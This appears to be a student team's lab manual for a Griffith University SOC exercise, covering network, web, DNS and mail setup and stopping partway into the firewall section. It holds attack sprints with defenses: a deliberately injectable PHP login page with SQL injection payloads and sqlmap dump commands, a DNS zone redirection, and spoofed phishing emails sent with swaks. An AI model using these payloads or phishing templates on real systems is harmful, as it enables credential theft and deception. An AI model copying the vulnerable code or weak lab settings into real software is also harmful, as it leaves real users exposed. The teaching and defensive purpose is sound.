# Cybersecurity Operations SOC Lab — User Manual

**Project:** 7821ICT Work Integrated Learning — Trimester 1, 2026  
**Team:** Delta Force (Group 37)  
**Client:** Zahra Jadidi — Griffith University  
**Platform:** Microsoft Azure (Hyper-V) — Ubuntu 22.04 LTS

---

## What Is This Repository?

This repository is the complete step-by-step user manual for the Cybersecurity Operations SOC Lab built by Team Delta Force. It contains everything needed to understand, replicate, and operate the lab environment — including network setup, service configuration, cyberattack simulations, and defensive mitigations.

The lab runs four Ubuntu 22.04 LTS virtual machines across three isolated network segments on Microsoft Azure, delivering six progressive configuration activities and four structured cyberattack simulation sprints.

---

## Lab Environment Overview

The network architecture is in the following : 



| VM | IP Address | Role |
| --- | --- | --- |
| ExternalGateway | 192.168.1.254 | Border router, NAT gateway, Firewall |
| InternalGateway | 192.168.1.1 | Internal router, DNS server, VPN host, Squid proxy |
| UbuntuServer | 192.168.1.80 | Web server, Email server |
| UbuntuDesktop | 10.10.1.100 | Client machine, attack testing |

---

## How to Use This Manual

> **Important:** Each activity builds on the previous one. Follow the order below exactly. Do not skip ahead — services in later activities depend on earlier ones being fully working.

| Step | Activity | What it does | Must complete first |
| --- | --- | --- | --- |
| 1 | Activity 1 — DMZ Network Setup | Provisions all 4 VMs and sets up network segments | Nothing — start here |
| 2 | Activity 2.1 — Secure Web Server | Deploys Apache2 with HTTPS and Squid proxy | Activity 1 |
| 3 | Activity 2.2 — DNS Server | Configures BIND9 for internal domain resolution | Activity 1 |
| 4 | Sprint 1 — SQL Injection | Attacks the web server, then defends it | Activity 2.1 |
| 5 | Sprint 2 — DNS Spoofing | Attacks the DNS server, then defends it | Activity 2.2 |
| 6 | Activity 3 — Email Server | Deploys Postfix and Dovecot with Thunderbird | Activity 2.2 |
| 7 | Sprint 3 — Phishing & Malware | Attacks the email server, then defends it | Activity 3 |
| 8 | Activity 4-1 — Firewalls | Hardens ExternalGateway with iptables | Activities 1–3 |
| 9 | Sprint 4 — Firewall Bypass | Attacks the firewall, then defends it | Activity 4-1 |

---

## Table of Contents

1. [Activity 1 — DMZ Network Setup](#activity-1-dmz-network-setup)
2. [Activity 2.1 — Secure Web Server](#activity-21-secure-web-server)
3. [Sprint 1 — SQL Injection](#sprint-1-sql-injection)
4. [Activity 2.2 — DNS Server](#activity-22-dns-server)
5. [Sprint 2 — DNS Spoofing](#sprint-2-dns-spoofing)
6. [Activity 3 — Email Server](#activity-3-email-server)
7. [Sprint 3 — Phishing & Malware Simulation](#sprint-3-phishing--malware-simulation)
8. [Activity 4-1 — Firewalls](#activity-4-1-firewalls)
9. [Sprint 4 — Firewall Bypass](#sprint-4-firewall-bypass)

--- 

## Prerequisites Before Starting

Before beginning Activity 1, make sure you have the following ready:

- Access to a Microsoft Azure subscription with Hyper-V enabled
- Four Ubuntu 22.04 LTS virtual machine images ready to provision
- At least one network administrator account with sudo privileges on each VM
- Basic familiarity with Linux terminal commands

---

## Tools Used in This Lab

| Tool | Purpose |
| --- | --- |
| `netplan` | Static IP address configuration on each VM |
| `iptables` / `netfilter-persistent` | Firewall rules and NAT |
| `BIND9` | DNS server for internal domain resolution |
| `Apache2` / `OpenSSL` | HTTPS web server with TLS |
| `Squid` | Forwarding proxy for internal clients |
| `Postfix` / `Dovecot` | Email server (SMTP and IMAP/POP3) |
| `Thunderbird` | Email client for testing |
| `OpenVPN` | VPN server for secure remote access |
| `sqlmap` | Automated SQL injection testing tool |
| `swaks` | Command-line SMTP testing and phishing simulation |
| `nmap` | Port scanning for firewall testing |
| `hping3` | Custom packet generation for bypass testing |
| `Wireshark` / `tcpdump` | Packet capture and traffic analysis |

---

-
# Cybersecurity-Operations-SOC-
## Activity 1: DMZ Network Setup

**Purpose:** Establish the foundational network infrastructure that all subsequent activities depend on.

**What was built:** Four Ubuntu 22.04 LTS virtual machines were provisioned within Hyper-V on Microsoft Azure and connected across three isolated network segments, forming the segmented lab topology required for the entire project.

| **VM** | **Role** | **Network Segment** |
| --- | --- | --- |
| ExternalGateway | Border router and NAT gateway | ExternalNetwork + DMZNetwork |
| InternalGateway | Internal router and DNS/VPN host | DMZNetwork + InternalNetwork |
| UbuntuServer | Service host (web, email, DNS) | DMZNetwork |
| UbuntuDesktop | Client machine for testing | InternalNetwork |

**Configuration steps:**

- Static IP addresses assigned to all VMs via netplan


-

- IP forwarding enabled on both gateway VMs 

```
net.ipv4.ip_forward=1 in /etc/sysctl.conf
```


- NAT configured on ExternalGateway using iptables MASQUERADE on eth0, allowing all internal VMs to reach the internet through the gateway's public IP

```
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

**Verification:** All VMs successfully pinged each other across segments, and internet access was confirmed from UbuntuDesktop by loading the Griffith University website in a browser.


**Key services:** Hyper-V virtual switches, Netplan, IP forwarding, iptables MASQUERADE 

**Running on:** ExternalGateway and InternalGateway

-

## Activity 2.1: Secure Web Server

**Purpose:** Deploy a production-style HTTPS web server with encrypted traffic and controlled proxy access for internal clients.

**What was built:** Apache2 was installed on UbuntuServer (192.168.1.80) and configured to serve web content over both HTTP and HTTPS. A Squid forwarding proxy was installed on InternalGateway to manage and control outbound web access for internal network clients.

| Component | Detail |
| --- | --- |
| Web server | Apache2 on UbuntuServer (192.168.1.80) |
| Certificate | Self-signed, 2048-bit RSA, 365 days (OpenSSL) |
| Protocol | HTTPS port 443, TLS 1.2 minimum |
| Proxy | Squid on InternalGateway, port 8080 |

**Configuration steps:**

- Apache2 installed and custom web page created at `/var/www/html/index.html`


- Self-signed TLS certificate generated using OpenSSL and applied to Apache2 via `default-ssl.conf`


- Strong cipher suites enforced and legacy protocols (SSLv2, SSLv3, TLS 1.0/1.1) disabled in `ssl-params.conf`


- Squid installed on InternalGateway and configured to listen on port 8080 as a forwarding proxy


- Squid proxy configured to permit internal network requests only and block Australian websites during office hours (9am–5pm)


**Verification:** The web page was confirmed loading over both http://192.168.1.80 and https://192.168.1.80 in a browser on UbuntuDesktop. HTTPS traffic was captured on port 443, confirming the payload was encrypted. Squid access logs confirmed web pages were being cached and the Australian website block was active during office hours.


**Key services:** Apache2, OpenSSL (TLS 1.2+), Squid proxy (port 8080)

**Running on:** UbuntuServer (192.168.1.80) and InternalGateway (192.168.1.1)

## Sprint 1: SQL Injection

## Target: Apache2 Web Server (192.168.1.80)

## Exploit Public-Facing Application

SQL Injection inserts malicious SQL code into input fields to manipulate the database behind a web application. In this sprint, you will create a vulnerable PHP login page on Apache2, exploit it manually and using sqlmap, then extract database credentials as evidence.

## Prerequisites:

- Activity 2b (Web Server) fully complete
- Apache2 running on UbuntuServer (192.168.1.80)
- UbuntuDesktop can access `http://192.168.1.80` in browser
- DNS Server configured and working (Activity 2a)
- Internet access available on UbuntuServer for package installation

This is the focused Sprint 1 manual.

- Prerequisites: Confirm Apache2 and DNS are working
- Setup: Install PHP, MySQL and create the vulnerable login page
- Attack steps: 8 steps from manual injection to full sqlmap dump
- Evidence: exactly what to screenshot for your report
- Defense: 5 mitigations with working code examples

---

## Setup: Prepare the vulnerable environment

## Step 1: Install PHP and MySQL on UbuntuServer

PHP is needed to create a dynamic web form. MySQL is the database the attack will target.

```
sudo apt install php php-mysql mysql-server libapache2-mod-php -y
sudo systemctl start mysql
sudo systemctl enable mysql
```





Verify with:

```
php -v
sudo systemctl status mysql
```



---

## Step 2: Create a test database with user credentials

This creates the database that the SQL injection will extract data from.

```
sudo mysql -u root

# Inside MySQL shell:
CREATE DATABASE testdb;
USE testdb;
CREATE TABLE users (
  id INT,
  username VARCHAR(50),
  password VARCHAR(50)
);
INSERT INTO users VALUES (1,'admin','secret123');
INSERT INTO users VALUES (2,'student','pass456');
SELECT * FROM users;
EXIT;
```





Inside MySQL, run these commands:

```
CREATE USER 'webuser'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON testdb.* TO 'webuser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```



---

## Step 3: Create a vulnerable PHP login page

This page is intentionally vulnerable. It inserts user input directly into the SQL query without any validation.

```
sudo nano /var/www/html/login.php
```

```php
<?php
$conn = mysqli_connect('localhost', 'webuser', 'password', 'testdb');
if (!$conn) {
    die('Connection failed');
}
$user = $_GET['user'];
$query = "SELECT * FROM users WHERE username='$user'";
$result = mysqli_query($conn, $query);
if(mysqli_num_rows($result) > 0){
    while($row = mysqli_fetch_array($result)){
        echo 'Welcome: ' . $row['username'] . '<br>';
        echo 'Password: ' . $row['password'];
    }
} else {
    echo 'User not found';
}
mysqli_close($conn);
?>
```



---

## Step 4: Enable Apache2 to run PHP

Restart Apache2 so it picks up the PHP module:

```
sudo systemctl restart apache2

# Test the page loads correctly:
curl 'http://localhost/login.php?user=admin'
```



Result:

```
Welcome: admin
Password: secret123
```

---

## Attack steps - execute in order:

- **Open the vulnerable page on UbuntuDesktop**

Open Firefox and navigate to the login page with a normal username:

```
http://192.168.1.80/login.php?user=admin
```



- **Test basic SQL injection: Bypass login**

Replace `admin` in the URL with a SQL injection payload. This tricks the query into returning all users:

```
http://192.168.1.80/login.php?user=' OR '1'='1
```



- **Test comment-based injection**

This payload comments out the rest of the SQL query after the username:

```
http://192.168.1.80/login.php?user=admin'%23
```



- **Install sqlmap on UbuntuDesktop**

sqlmap is an automated SQL injection tool that can detect and exploit vulnerabilities:

```
sudo apt install sqlmap -y
sqlmap --version
```



- **Run sqlmap to detect vulnerability and list databases**

Point sqlmap at the vulnerable parameter. Answer yes to any prompts:

```
sqlmap -u "http://192.168.1.80/login.php?user=admin" --dbs --batch
```



- **List tables inside testdb**

Now drill into the testdb database to find its tables:

```
sqlmap -u "http://192.168.1.80/login.php?user=admin" -D testdb --tables --batch
```



- **Dump all data from the users table**

Extract all usernames and passwords from the users table:

```
sqlmap -u "http://192.168.1.80/login.php?user=admin" -D testdb -T users --dump --batch
```



- **Save sqlmap output as evidence**

Save the terminal output to a file for your attack report:

```
sqlmap -u "http://192.168.1.80/login.php?user=admin" -D testdb -T users --dump --batch > ~/sqli_evidence.txt
cat ~/sqli_evidence.txt
```





---

## MITRE ATT&CK Reference

Go to the MITRE ATT&CK page: https://attack.mitre.org/techniques/T1190/

The SQL injection attack is classified under MITRE ATT&CK technique **T1190 (Exploit Public-Facing Application)**, which describes adversaries exploiting vulnerabilities in internet-facing applications to gain unauthorised access. In this sprint, the vulnerable `login.php` page hosted on Apache2 was exploited using manual SQL injection payloads and sqlmap to extract credentials from the testdb database, demonstrating a realistic attack scenario aligned with real-world adversarial techniques.

---

## Mitigation & Defense Strategies

Never insert user input directly into SQL queries. Parameterised queries separate data from code completely, making injection impossible.

```php
prepare("SELECT * FROM users WHERE username=?");
$stmt->bind_param("s", $_GET['user']);
$stmt->execute();
$result = $stmt->get_result();
?>
```

---

## Defense 1: Prepared Statements (fixes the vulnerability directly)

```
sudo nano /var/www/html/secure-login.php
```

```php
<?php
$conn = mysqli_connect('localhost', 'webuser', 'password', 'testdb');
$user = $_GET['user'];
$stmt = $conn->prepare("SELECT username, password FROM users WHERE username=?");
$stmt->bind_param("s", $user);
$stmt->execute();
$result = $stmt->get_result();
if($result->num_rows > 0){
    while($row = $result->fetch_array()){
        echo 'Welcome: ' . $row['username'] . '<br>';
    }
} else {
    echo 'User not found';
}
?>
```



Test it:

```
curl "http://localhost/secure-login.php?user=' OR '1'='1"
```

Output: `User not found`



---

## Defense 2: Disable PHP Error Display

```
sudo nano /etc/php/8.3/apache2/php.ini
```

Find and change:

```
display_errors = Off
log_errors = On
```



Verify it is working:

Test with a broken PHP file to confirm errors are hidden:

```
echo "<?php mysqli_connect('wrong','wrong','wrong','wrong'); ?>" | sudo tee /var/www/html/errortest.php
curl http://localhost/errortest.php
```


Restart Apache2:

```
sudo systemctl restart apache2
```

Blank page - no error shown to the attacker. Attackers can no longer see database error messages.

PHP error display was verified to be disabled on the web server (`display_errors = Off`), preventing attackers from obtaining sensitive database information through error messages. Error logging is enabled (`log_errors = On`) ensuring errors are recorded server-side for administrative review without exposing details to end users.

---

## Defense 3: Least Privilege Database Account

Currently `webuser` has full access to the database - they can read, write, delete and modify everything. This is dangerous because if an attacker exploits SQL injection, they can do maximum damage.

Least privilege means giving the web application only the minimum permissions it needs - in this case, only SELECT (read) access.

```
sudo mysql -u root

# Inside MySQL:
REVOKE ALL PRIVILEGES ON testdb.* FROM 'webuser'@'localhost';
GRANT SELECT ON testdb.users TO 'webuser'@'localhost';
FLUSH PRIVILEGES;
SHOW GRANTS FOR 'webuser'@'localhost';
EXIT;
```



Test the restriction is working:

```
sudo mysql -u webuser -ppassword -e "DROP TABLE testdb.users;"
```



Output: `ERROR 1142: DROP command denied to user 'webuser'@'localhost'`

This proves `webuser` can no longer destroy the database even if an attacker gains access.

---

## Summary

This sprint demonstrated how a poorly coded PHP login page hosted on Apache2 can be exploited through SQL injection, allowing an attacker to bypass authentication and extract sensitive credentials directly from the database using both manual payloads and sqlmap. The attack was documented under MITRE ATT&CK **T1190 (Exploit Public-Facing Application)**.

Three mitigations were implemented and verified: prepared statements to separate user input from SQL code, PHP error display disabled to prevent information leakage, and least privilege database permissions to limit the damage an attacker can cause even if access is gained. Together these controls directly address the root causes of the vulnerability and reflect secure coding and database hardening practices standard in real-world SOC environments.

-

## Activity 2.2: DNS Server

**Purpose:** Provide internal domain name resolution so all services in the lab are accessible by hostname, not just IP address.

**What was built:** BIND9 was installed and configured on InternalGateway (`192.168.1.1`) as an authoritative DNS server for the lab domain, with forwarding to Google's public resolvers for external queries.

| Zone | Type | Records configured |
| --- | --- | --- |
| Forward lookup zone | Master | NS, A records (ns1, www) |
| Reverse lookup zone | Master | PTR records for 192.168.1.x |

**Configuration steps:**

- `named.conf.options` updated to forward external queries to `8.8.8.8` and `8.8.4.4`



- Forward zone file created mapping `www` to `192.168.1.80` (UbuntuServer)



- Reverse zone file created for PTR resolution within the `192.168.1.x` subnet



- Both zone files validated with `named-checkzone` before reloading BIND9
- All internal VMs updated via netplan to use `192.168.1.1` as their DNS server
- Squid proxy updated with `dns_nameservers 192.168.1.1` for consistent resolution



**Verification:** DNS resolution confirmed using `dig` and `nslookup` from both UbuntuServer and UbuntuDesktop. The web server was accessible by domain name in a browser over both HTTP and HTTPS.





**Key services:** BIND9 (forward and reverse zones), DNS forwarding, Squid DNS integration

**Running on:** InternalGateway (`192.168.1.1`)

-

## Sprint 2: DNS Spoofing

## Target: BIND9 DNS Server on InternalGateway (192.168.1.1)

DNS Spoofing manipulates DNS responses to return false IP addresses, redirecting victims to attacker-controlled servers without their knowledge. In this sprint, you will directly modify the BIND9 zone file on InternalGateway to redirect domain lookups to a wrong IP, then verify the redirection and restore the correct records.

---

## Prerequisites

- Activity 2 (DNS Server) fully complete
- BIND9 running on InternalGateway (`192.168.1.1`)
- UbuntuDesktop configured to use `192.168.1.1` as DNS server
- `www.hasibulwilproject.com` resolves to `192.168.1.80` correctly
- Access to InternalGateway terminal

This is the focused Sprint 2 manual.

## Prerequisites: Confirm BIND9 and DNS are working first

- Attack steps: 8 steps, each labelled with which VM to use
- Evidence: Multiple screenshots needed including before and after comparison
- Defense: 4 mitigations with exact commands

Each step is labelled with the VM you need to be on (InternalGateway or UbuntuDesktop) since this attack switches between two machines.

---

## Attack Steps: Execute in order

### Step 1 — Document the correct DNS baseline (UbuntuDesktop)

Before making any changes, record the correct DNS response. This is our previous evidence.

```
nslookup www.hasibulwilproject.com 192.168.1.1
dig www.hasibulwilproject.com
```

Reverse lookup zone file:







---

### Step 2 — Open the zone file on InternalGateway

Log into InternalGateway and open the forward lookup zone file:

```
sudo nano /etc/bind/db.hasibulwilproject.com
```

Forward zone file:



---

### Step 3 — Change www A record to attacker IP (InternalGateway)

Modify the `www` record to redirect traffic to UbuntuDesktop (`10.10.1.100`) instead of the real web server:

```
# Find this line:
www     IN      A       192.168.1.80

# Change it to:
www     IN      A       10.10.1.100
```



---

### Step 4 — Increment the serial number (InternalGateway)

Increase the serial number in the SOA record so BIND9 recognises the zone has changed:

```
# Find the serial line and increment by 1:
# If current serial is 3, change to 4
3         ; Serial

# becomes:
4         ; Serial
```



---

### Step 5 — Save and restart BIND9

```
sudo systemctl restart bind9
```

---

### Step 6 — Verify the spoofed DNS response (UbuntuDesktop)

Query the DNS server and confirm it now returns the wrong IP:

```
nslookup www.hasibulwilproject.com 192.168.1.1
dig www.hasibulwilproject.com
```





It returns spoofed IP: `10.10.1.100` instead of `192.168.1.80`

---

### Step 7 — Verify redirection in browser (UbuntuDesktop)

Open Firefox and navigate to the domain. The page will fail to load or show wrong content — proving the redirect worked:

```
http://www.hasibulwilproject.com
```



Page fails to load or shows wrong server - DNS spoofing confirmed

---

### Step 8 — Save evidence and restore correct DNS (InternalGateway)

After capturing all screenshots, restore the correct IP address in the zone file:

```
sudo nano /etc/bind/db.hasibulwilproject.com

# Revert back to:
www     IN      A       192.168.1.80

# Save and restart:
sudo systemctl restart bind9
```





`nslookup` returns correct IP `192.168.1.80` again.

---

## MITRE ATT&CK Reference

Go to the MITRE ATT&CK page: https://attack.mitre.org/techniques/T1557/

The DNS spoofing attack is classified under MITRE ATT&CK technique **T1557 (Adversary-in-the-Middle)**, which describes adversaries intercepting and manipulating network traffic between victims and legitimate resources. In this sprint, the BIND9 zone file on InternalGateway was directly modified to redirect `www.hasibulwilproject.com` from the legitimate web server (`192.168.1.80`) to an attacker-controlled IP (`10.10.1.100`), successfully demonstrating how DNS manipulation can redirect unsuspecting users without their knowledge.

---

## Mitigation & Defense Strategies

### Defense 1 — Restrict zone file access

Lock down who can query or transfer your zone files. This prevents unauthorised modification of DNS records.

In internal gateway:

```
sudo nano /etc/bind/named.conf.options

# Add inside options block:
allow-query { 192.168.1.0/24; 10.10.1.0/24; };
allow-transfer { none; };
allow-recursion { 192.168.1.0/24; 10.10.1.0/24; };
```



```
# Restart BIND9:
sudo systemctl restart bind9
```

Test DNS still works:

```
nslookup www.hasibulwilproject.com 192.168.1.1
```



---

### Defense 2 — Enable DNSSEC validation

DNSSEC digitally signs DNS records so clients can verify responses are authentic and have not been tampered with.

```
sudo nano /etc/bind/named.conf.options

# Ensure this line is present:
dnssec-validation auto;
```


```
# Restart BIND9:
sudo systemctl restart bind9

# Verify:
sudo named-checkconf
```



It is showing no errors. It cryptographically verifies DNS responses are authentic.

---

### Defense 3 — Enable BIND9 query logging

Log all DNS queries to detect unusual lookup patterns and unauthorised zone modifications early.

```
sudo nano /etc/bind/named.conf

# Add at the bottom:
logging {
  channel query_log {
    file "/var/log/named/query.log";
    severity dynamic;
    print-time yes;
  };
  category queries { query_log; };
};
```



```
# Create log directory:
sudo mkdir -p /var/log/named
sudo chown bind:bind /var/log/named
sudo systemctl restart bind9
```



Result: No error message

BIND9 query logging was enabled as a detection control to identify unusual DNS query patterns and support incident response in alignment with SOC monitoring practices.

---

### Defense 4 — Verify zone integrity with named-checkzone

After any zone file change, always verify the file is correct before reloading BIND9.

```
sudo named-checkconf
sudo named-checkzone hasibulwilproject.com \
  /etc/bind/db.hasibulwilproject.com
```



Verify DNS is working correctly after all defenses:

```
# On UbuntuDesktop:
nslookup www.hasibulwilproject.com 192.168.1.1
```



---

## Summary

This sprint demonstrated how direct modification of the BIND9 zone file on InternalGateway can redirect legitimate domain lookups to an attacker-controlled IP address, silently redirecting unsuspecting users without any visible indication. The attack successfully spoofed `www.hasibulwilproject.com` from the legitimate web server (`192.168.1.80`) to an attacker-controlled address (`10.10.1.100`), confirmed through `nslookup` output and browser redirection failure. The attack was documented under MITRE ATT&CK **T1557 (Adversary-in-the-Middle)**.

Three defenses were implemented and verified: zone file access restrictions to limit who can query and transfer DNS records, DNSSEC validation to cryptographically verify DNS response authenticity, and BIND9 query logging as a detection control to identify unusual DNS activity in support of SOC monitoring practices. Together these controls address both prevention and detection, significantly reducing the risk of DNS manipulation within the lab environment.

-

## Activity 3: Email Server

**Purpose:** Deploy a fully functional mail server with SMTP and IMAP/POP3 support, and configure a desktop email client for end-to-end mail delivery within the lab domain.

**What was built:** Postfix was installed on UbuntuServer (`192.168.1.80`) as the Mail Transfer Agent and Dovecot was installed to handle mail retrieval via IMAP and POP3. Thunderbird was configured on UbuntuDesktop as the email client, enabling full send and receive functionality within the lab domain.

| Component | Role | Port |
| --- | --- | --- |
| Postfix | Mail Transfer Agent — sends and routes email | 25 (SMTP) |
| Dovecot | Mail Delivery Agent — IMAP and POP3 retrieval | 143 (IMAP), 110 (POP3) |
| Thunderbird | Email client on UbuntuDesktop | Connects to both above |

---

## Configuration Steps

### Postfix

- Nameservers updated on UbuntuServer and UbuntuDesktop to point to InternalGateway (`192.168.1.1`) before installation



- Postfix installed and configured as an Internet Site with the lab domain set as the mail domain during setup
- `main.cf` updated to set `myhostname`, `mydomain`, `myorigin`, `mydestination`, `mynetworks` (covering `127.0.0.0/8`, `192.168.1.0/24`, and `10.10.1.0/24`), and `home_mailbox = Maildir/`



- Virtual alias mappings created in `/etc/postfix/virtual` to route domain email addresses (e.g. `desktop-user@domain` and `server-user@domain`) to local Linux accounts



- Alias database compiled using `postmap /etc/postfix/virtual` and Postfix restarted

---

### Dovecot

- Dovecot installed including `dovecot-imapd`, `dovecot-pop3d`, `dovecot-lmtpd`, and `dovecot-core`
- `mail_location` set to `maildir:~/Maildir` in `10-mail.conf`



- `mail_privileged_group = mail` uncommented in `10-mail.conf`
- IMAP, POP3, and LMTP protocols enabled in `dovecot.conf`
- Plaintext authentication enabled in `10-auth.conf` (`disable_plaintext_auth = no`, `auth_mechanisms = plain login`)
- SSL disabled in `10-ssl.conf` for the lab environment
- `10-master.conf` reviewed and configured to ensure correct service socket settings



- Both Postfix and Dovecot restarted and listening ports verified using `ss -tuln` (ports 25 and 143 confirmed active)

---

### Users and Client

- Two Linux user accounts created: `server-user` and `desktop-user` (both with password: `password`)



- Thunderbird installed on UbuntuDesktop and configured with the `desktop-user` account using IMAP (port 143) and SMTP (port 25) pointing to UbuntuServer (`192.168.1.80`)



---

## Verification

A test email was sent from UbuntuServer using the `echo` command piped to `mail`, and receipt was confirmed on the server by checking `Maildir/new`. An email was then sent from Thunderbird to the server user and verified on the server. Finally, emails were exchanged between two Thunderbird accounts to confirm full bidirectional delivery within the lab domain.









---

**Key services:** Postfix (MTA), Dovecot (IMAP/POP3/LMTP), Thunderbird

**Running on:** UbuntuServer (`192.168.1.80`) with Thunderbird on UbuntuDesktop (`10.10.1.100`)


-


## Sprint 3: Phishing & Malware Simulation

**MITRE ATT&CK:** Spearphishing Attachment — T1566.001

Phishing uses deceptive emails to trick recipients into revealing credentials or executing malware. In this sprint, you will craft and send phishing emails through the lab's Postfix mail server using `swaks`, including a simulated malware attachment, then verify delivery through Thunderbird.

---

## Prerequisites

- Activity 3 (Email Server) fully complete
- Postfix and Dovecot running on UbuntuServer (`192.168.1.80`)
- Thunderbird configured on UbuntuDesktop with `desktop-user` account
- Two users created: `server-user` and `desktop-user` (password: `password`)
- UbuntuDesktop can send and receive emails via Thunderbird

This is the focused Sprint 3 manual.

- Prerequisites: Confirm everything is ready before starting
- Setup: Install `swaks` and create the fake malware file
- Attack steps: 7 numbered steps with exact commands, expected outputs and screenshots
- Defense: SPF, DKIM, ClamAV and other mitigations to document

---

## Setup: Prepare Your Attack Tools

### Step 1: Install swaks on UbuntuServer

`swaks` (Swiss Army Knife for SMTP) lets you craft and send fully customised emails from the command line, including spoofed From addresses and attachments.

```
sudo apt install swaks -y
```

Verify with:

```
swaks --version
```



---

### Step 2: Verify Postfix is running

Confirm the mail server is active before sending any test emails.

```
sudo systemctl status postfix
sudo ss -tuln | grep :25
```



---

### Step 3: Create a harmless simulated malware file

This script does nothing harmful. It just prints a ransomware-style message to simulate what a malware payload looks like when delivered via email.

```
echo '#!/bin/bash
echo "System compromised."
echo "All files encrypted. Pay 1 BTC to recover your data."
' > ~/malware_simulation.sh
chmod +x ~/malware_simulation.sh
cat ~/malware_simulation.sh
```



---

## Attack Steps and Evidence

### Step 1 — Send a basic phishing email (no attachment)

On UbuntuServer, use `swaks` to send a spoofed urgent email to the `desktop-user`. The From address is faked to appear as the IT security team.

```
swaks --to desktop-user@hasibulwilproject.com \
      --from security@hasibulwilproject.com \
      --server 192.168.1.80 \
      --port 25 \
      --header "Subject: URGENT: Your account will be suspended" \
      --body "Dear User,

Your account has been flagged for suspicious activity.
Click here immediately to verify your identity:
http://fake-login.hasibulwilproject.com

Failure to act within 24 hours will result in permanent suspension.

IT Security Team"
```



---

### Step 2 — Verify delivery in mail logs

Check the Postfix mail log to confirm the email was sent successfully.

```
sudo grep "status=sent" /var/log/syslog
```



---

### Step 3 — Confirm phishing email arrived in Thunderbird

On UbuntuDesktop, open Thunderbird and check the inbox of `desktop-user@hasibulwilproject.com`. The spoofed email from `security@hasibulwilproject.com` should be visible.



---

### Step 4 — Send a second phishing email with a malware attachment

Now attach the simulated malware script to a second phishing email, disguised as a legitimate system update.

```
swaks --to desktop-user@hasibulwilproject.com \
      --from it-support@hasibulwilproject.com \
      --server 192.168.1.80 \
      --port 25 \
      --header "Subject: Action required: Run security patch now" \
      --body "Dear User,

A critical security vulnerability has been identified on your system.
Please run the attached patch file immediately to protect your account.
This is mandatory. Failure to comply may result in data loss.

IT Support Team" \
      --attach-type application/x-sh \
      --attach-name malware_simulation.sh \
      --attach ~/malware_simulation.sh
```




---

### Step 5 — Verify the attachment arrived in Thunderbird

On UbuntuDesktop, open Thunderbird. The second email should appear with the `.sh` file attached. Open the email and confirm the attachment is visible.



---

### Step 6 — Check email headers to analyse spoofing

In Thunderbird, right-click the phishing email and select **View Source** or **More > View Source**. Look at the `Received` and `From` headers to understand how spoofing works.



---

### Step 7 — Save mail log evidence for your report

Extract relevant log entries and save them as a text file for your attack report.

```
sudo grep "desktop-user" /var/log/syslog > ~/phishing_evidence.txt
cat ~/phishing_evidence.txt
```



---

## MITRE ATT&CK Reference

The phishing and malware simulation is classified under MITRE ATT&CK technique **T1566.001 (Spearphishing Attachment)**, which describes adversaries sending emails with malicious attachments to trick recipients into executing harmful payloads. In this sprint, `swaks` was used to send spoofed emails with a simulated `.sh` malware attachment through the lab's Postfix server, demonstrating how an attacker can abuse a misconfigured mail server to deliver phishing content and malicious files.

---

## Mitigation & Defense Strategies

### Defense 1 — SPF (Sender Policy Framework)

SPF records specify which mail servers are authorised to send email for your domain. This prevents attackers from spoofing your From address.

```
# Add to your DNS zone file on InternalGateway:
@ IN TXT "v=spf1 ip4:192.168.1.80 -all"

# Restart BIND9:
sudo systemctl restart bind9
```



Verify SPF record is live:

```
nslookup -type=TXT hasibulwilproject.com 192.168.1.1
```



---

### Defense 2 — Block dangerous attachment types

Configure Postfix to reject emails carrying executable attachment types such as `.sh`, `.exe`, `.bat`, `.js`, and `.ps1` before they reach the mailbox.

Open `main.cf` on UbuntuServer:

```
sudo nano /etc/postfix/main.cf
```

Scroll to the very bottom and add these lines:

```
mime_header_checks = regexp:/etc/postfix/mime_checks
body_checks = regexp:/etc/postfix/mime_checks
header_checks = regexp:/etc/postfix/mime_checks
```



Create the `mime_checks` file:

```
sudo nano /etc/postfix/mime_checks
```

Add this content to the file:

```
/Content-Type:.*name=".*\.(sh|exe|bat|js|ps1)"/i    REJECT Dangerous attachment blocked
/Content-Disposition:.*filename=".*\.(sh|exe|bat|js|ps1)"/i    REJECT Dangerous attachment blocked
```



Restart Postfix:

```
sudo systemctl restart postfix
```

Test it is working — try sending the malware attachment again from UbuntuServer:



The defense is now working perfectly. **550 5.7.1 Dangerous attachment blocked**

- Postfix detected the `.sh` attachment
- Rejected the email before it reached the mailbox
- Connection was closed immediately

Check Thunderbird to confirm the email did NOT arrive in the inbox — no new email arrived.



---

### Defense 3 — Warning banner on incoming emails

Open `main.cf`:

```
sudo nano /etc/postfix/main.cf
```



Add this line:

```
header_checks = regexp:/etc/postfix/header_checks
```

Create the `header_checks` file:

```
/^Subject:/    PREPEND X-Warning: CAUTION - This email may contain phishing content. Do not click suspicious links or open unexpected attachments.
```



Restart Postfix:

```
sudo systemctl restart postfix
```

Send a test email:

```
swaks --to desktop-user@hasibulwilproject.com \
      --from test@hasibulwilproject.com \
      --server 192.168.1.80 \
      --port 25 \
      --subject "Test warning banner" \
      --body "Check your email headers"
```



Then check Thunderbird **More > View Source** for the `X-Warning` line.



The X-Warning banner is working perfectly.

```
X-Warning: CAUTION - This email may contain phishing content. Do not click suspicious links or open unexpected attachments.
```

---

### Defense 4 — User awareness training

Technical controls alone are not enough. Train users to never click links or open attachments from unexpected emails — even if the sender appears to be internal. Verify suspicious requests by phone before acting.

---

## Summary

This sprint demonstrated how spoofed phishing emails with malicious attachments can be delivered through an unprotected Postfix/Dovecot mail server using `swaks`, exposing critical vulnerabilities in email trust and attachment handling. The attack was documented under MITRE ATT&CK **T1566.001 (Spearphishing Attachment)**.

Four layered defences were implemented and verified: attachment blocking via `mime_header_checks`, SPF records to prevent sender spoofing, open relay restrictions to limit mail server access, and warning banners to alert recipients of suspicious content. Together these controls significantly reduce the email attack surface and reflect industry-standard SOC defensive practice.

-

## Activity 4-1: Firewalls

**Purpose:** Harden the network perimeter on ExternalGateway using stateful packet filtering, NAT, and controlled port forwarding to regulate all traffic entering and leaving the lab network.

**What was built:** `iptables` was configured on ExternalGateway to enforce a strict default-deny policy across all chains, with explicit rules added to permit only authorised traffic. All rules were saved persistently to survive reboots.

| Rule Type | Chain | Purpose |
| --- | --- | --- |
| Default DROP | INPUT, OUTPUT, FORWARD | Block all traffic unless explicitly permitted |
| MASQUERADE | POSTROUTING (nat) | NAT for all outbound traffic via `eth0` |
| DNS allow | OUTPUT, INPUT (port 53 TCP/UDP) | Permit name resolution |
| FORWARD new connections | FORWARD (ports 80, 443) | Allow new HTTP and HTTPS sessions |
